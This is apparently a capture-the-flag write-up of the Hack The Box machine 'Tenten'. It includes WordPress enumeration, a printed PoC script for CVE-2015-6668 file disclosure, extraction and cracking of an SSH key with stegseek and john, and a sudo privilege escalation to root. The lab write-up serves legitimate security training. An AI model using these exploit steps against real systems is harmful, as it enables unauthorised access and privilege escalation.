

# Tenten


# Context

Lab link: [https://app.hackthebox.com/machines/Tenten](https://app.hackthebox.com/machines/Tenten)

Suggested tools: `nmap`, `wpscan`, `curl`, `stegseek`, `steghide`, `ssh2john`, `john`, `ssh`

Tactics: Reconnaissance, Initial Access, Credential Access, Privilege Escalation

# Scenario

Tenten is a medium difficulty machine that requires some outside-the-box/CTF-style thinking to complete. It demonstrates the severity of using outdated WordPress plugins, which is a major attack vector that exists in real life.

# Questions

Q1- How many TCP ports are listening on Tenten?

Answer: 2

Reason: Nmap's full TCP scan against `tenten.htb` found two open ports, `22/tcp` (SSH) and `80/tcp` (HTTP).

```bash
$ nmap -sC -sV -p- tenten.htb -v -oN nmap.txt
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-18 14:27 -0500
Initiating SYN Stealth Scan at 14:27
Scanning tenten.htb (10.129.132.153) [65535 ports]
Discovered open port 22/tcp on 10.129.132.153
Discovered open port 80/tcp on 10.129.132.153
```

Q2- What content management system (CMS) is running the website on Tenten?

Answer: WordPress

Reason: Nmap's HTTP service script fingerprinted the site on `80/tcp` as `WordPress 4.7.3`, running behind `Apache/2.4.18 (Ubuntu)`.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Q3- What username can be identified through WordPress enumeration?

Answer: `takis`

Reason: Running `wpscan --url <http://tenten.htb> --enumerate u` against the WordPress install enumerated author archive pages and identified a single valid username, `takis`, via the Author Pattern detection method.

```bash
$ wpscan --url http://tenten.htb --enumerate u
_______________________________________________________________
                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[+] URL: http://tenten.htb/ [10.129.132.153]
[+] Started: Wed Nov 18 14:45:49 2026
[+] Command Line: wpscan --url http://tenten.htb --enumerate u
[+] Hostname: kali

[+] Enumerating Users (via Passive and Aggressive Methods)

[+] takis
 | Found By: Author Posts - Author Pattern (Passive Detection)
 Brute Forcing Author IDs - Time: 00:00:01 <====> (10 / 10) 100.00% Time: 00:00:01
[i] 1 user(s) Identified.
```

Q4- What is the name of the WordPress plugin that's running version 0.7.25?

Answer: `job-manager`

Reason: Plugin enumeration via `wpscan --url <http://tenten.htb> --enumerate ap` found the `job-manager` plugin at `http://tenten.htb/wp-content/plugins/job-manager/`, with its readme stable tag reported as version `0.7.25`, last updated in 2015.

```bash
$ wpscan --url http://tenten.htb --enumerate ap
_______________________________________________________________
                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[+] URL: http://tenten.htb/ [10.129.132.153]
[+] Started: Wed Nov 18 14:49:27 2026
[+] Command Line: wpscan --url http://tenten.htb --enumerate ap
[+] Hostname: kali

[+] job-manager
 | Location: http://tenten.htb/wp-content/plugins/job-manager/
 | Latest Version: 0.7.25 (up to date)
 | Last Updated: 2015-08-25 10:44pm GMT (11 years ago)
 | Readme: http://tenten.htb/wp-content/plugins/job-manager/readme.txt
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 7.2.5 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tenten.htb/wp-content/plugins/job-manager/readme.txt
```

Q5- What is the 2015 CVE ID for a file disclosure vulnerability in this version of the `job-manager` plugin?

Answer: CVE-2015-6668

Reason: `CVE-2015-6668` is a file disclosure vulnerability in the WordPress Job Manager plugin, allowing unauthenticated attackers to read arbitrary files via the resume/file upload handling, affecting versions including `0.7.25`.

Reference POC: [https://github.com/h3x0v3rl0rd/CVE-2015-6668](https://github.com/h3x0v3rl0rd/CVE-2015-6668)

Q6- What is the filename for the application that implies that a hacker has already been here.

Answer: `HackerAccessGranted`

Reason: Running `cve.py` against `tenten.htb` with the filename `HackerAccessGranted` confirmed the file exists at `http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg`, using `CVE-2015-6668`'s predictable-path file disclosure in the `job-manager` plugin.

Note: `CVE-2015-6668` is a file disclosure vulnerability in the WordPress Job Manager plugin (`<=0.7.25`). The plugin stores uploaded CV/resume files at a predictable public path (`/wp-content/uploads/YYYY/MM/filename.ext`) with no authentication or access control, so any file whose exact filename is known can be retrieved directly.

```bash
$ cat cve.py
import requests

print """
CVE-2015-6668
Title: CV filename disclosure on Job-Manager WP Plugin
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25
"""
website = raw_input('Enter a vulnerable website: ')
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2013,2018):
    for i in range(1,13):
        for extension in {'jpg','jpeg','docx'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL

$ python2 cve.py

CVE-2015-6668
Title: CV filename disclosure on Job-Manager WP Plugin
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25

Enter a vulnerable website: http://tenten.htb/
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://tenten.htb//wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

Q7- What is the relative URL of the file associated with the `HackAccessGranted` application?

Answer: `/wp-content/uploads/2017/04/HackerAccessGranted.jpg`

Reason: The `cve.py` PoC for `CVE-2015-6668` confirmed the file's relative path by iterating year/month folders until it returned a `200`, resolving to `/wp-content/uploads/2017/04/HackerAccessGranted.jpg` on `tenten.htb`.

Q8- What is the password for the SSH key hidden in the image?

Answer: `superpassword`

Reason: The RSA private key extracted from `image.jpg` via `stegseek` was itself passphrase-protected. Converting it with `ssh2john` and cracking the resulting hash with `john` against the default wordlist recovered the passphrase `superpassword`.

```bash
$ curl -o image.jph http://tenten.htb//wp-content/uploads/2017/04/HackerAccessGranted.jpg

$ stegseek image.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "id_rsa".
[i] Extracting to "image.jpg.out".

$ mv image.jpg.out id_rsa

$ file id_rsa 
id_rsa: PEM RSA private key

$ ssh2john id_rsa > hash
                                                                                                                                 
$ john hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [MD5/bcrypt-pbkdf/[3]DES/AES 32/64])
Cost 1 (KDF/cipher [0:MD5/AES 1:MD5/[3]DES 2:bcrypt-pbkdf/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
[...]
Proceeding with wordlist:/usr/share/john/password.lst
Enabling duplicate candidate password suppressor using 256 MiB
superpassword    (id_rsa)
```

Q9- User flag

Answer: [REDACTED]

Reason: Using the recovered `id_rsa` key with passphrase `superpassword`, SSH login as `takis` succeeded, confirming the key belonged to that enumerated user. `user.txt` was read from `/home/takis`.

```bash
takis@tenten:~$ pwd
/home/takis
takis@tenten:~$ cat user.txt 
```

Q10- What is the full path to the file that the `takis` user can run as root without a password?

Answer: `/bin/fuckin`

Reason: Running `sudo -l` as `takis` showed a `NOPASSWD` sudo rule for `/bin/fuckin`, allowing it to run as root without a password prompt.

```bash
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

Q11- Root flag

Answer: [REDACTED]

Reason: Running the script with `sudo` (`sudo /bin/fuckin sh`) executed `sh` as root, since the `NOPASSWD` sudoers rule applies to `/bin/fuckin` and the script blindly executes its arguments. This spawned a root shell, from which `root.txt` was read in `/root`.

```bash
$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4

takis@tenten:~$ sudo /bin/fuckin sh
# cd /root
# ls
root.txt
# cat root.txt
```

# Attack Architecture



# Attack Chain

| Stage | Detail | MITRE |
| --- | --- | --- |
| Reconnaissance | `nmap -sC -sV -p- against tenten.htb` identified 22/tcp SSH and 80/tcp HTTP running WordPress 4.7.3 | T1595 |
| Discovery | `wpscan --enumerate u` identified WordPress username `takis`; `wpscan --enumerate ap` identified plugin job-manager version 0.7.25 | T1087.001, T1592 |
| Initial Access | CVE-2015-6668 (file disclosure in job-manager <=0.7.25) used via PoC script to guess applicant filename HackerAccessGranted, retrieving `/wp-content/uploads/2017/04/HackerAccessGranted.jpg` | T1190 |
| Credential Access | `stegseek` extracted an embedded file named id_rsa from HackerAccessGranted.jpg using an empty steghide passphrase; ssh2john + john cracked the key's own passphrase as `superpassword` | T1552.001, T1110.002 |
| Lateral Movement / Initial Shell | SSH login as takis using the recovered id_rsa key and passphrase superpassword | T1021.004 |
| Privilege Escalation | sudo -l revealed a `NOPASSWD` rule for `/bin/fuckin`, a script that executes its arguments directly; sudo `/bin/fuckin` sh spawned a root shell | T1548.003 |

## Attack Tree

```bash
HTB Tenten (tenten.htb)
│
├── 80 -- WordPress 4.7.3 / job-manager plugin 0.7.25
│   └── wpscan --enumerate u/ap -> username takis, plugin job-manager 0.7.25
│       └── CVE-2015-6668 file disclosure -> /wp-content/uploads/2017/04/HackerAccessGranted.jpg
│           └── stegseek (empty passphrase) -> extracted id_rsa
│               └── ssh2john + john -> passphrase superpassword
│                   └── ssh -i id_rsa takis@tenten.htb
│                       │
│                       ├── /home/takis/user.txt
│                       │   └── [USER FLAG]
│                       │
│                       └── sudo -l -> NOPASSWD: /bin/fuckin
│                           └── sudo /bin/fuckin sh
│                               └── [ROOT FLAG]
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Discovery | Enumerated username | takis |
|  | Outdated plugin | job-manager v0.7.25 |
|  | Outdated plugin | akismet v3.3 |
| Delivery | CVE | CVE-2015-6668 |
|  | Disclosed file | `/wp-content/uploads/2017/04/HackerAccessGranted.jpg` |
| Credential Access | Embedded file (steghide) | id_rsa |
|  | Steghide passphrase | `` (empty) |
|  | RSA key passphrase | superpassword |
| Privilege Escalation | Sudo `NOPASSWD` binary | `/bin/fuckin` |
|  | Binary contents | #!`/bin/bash` / $1 $2 $3 $4 |
| Flags | User flag | [`REDACTED`] |
|  | Root flag | [`REDACTED`] |

# Lab Insights

1. Unauthenticated file disclosure in a web application is rarely limited to harmless metadata — any upload path that stores user-submitted files at a predictable location without access control can expose sensitive artifacts an attacker never expected to find. On Tenten, `CVE-2015-6668` in the abandoned `job-manager` plugin let an attacker fetch `HackerAccessGranted.jpg` directly from `/wp-content/uploads/` with no authentication, demonstrating how an 11-year-unmaintained plugin becomes a durable foothold long after its vendor stopped patching it. (T1190)
2. Steganography is not inherently strong security — hiding a file inside an image only raises the cost of discovery, it does not replace proper key protection. Here, `stegseek` cracked the embedding instantly because the steghide passphrase was empty, revealing a raw `id_rsa` private key that still required its own password to be useful, showing that layered secrecy fails completely once any single layer is weak. (T1552.001)
3. Sudo rules that grant `NOPASSWD` execution of a script taking unsanitized positional arguments are functionally equivalent to full root access, regardless of how narrow the binary's name or stated purpose appears. `/bin/fuckin` on Tenten simply executed `$1 $2 $3 $4`, so `sudo /bin/fuckin sh` was all that stood between a standard user and an unrestricted root shell. (T1548.003)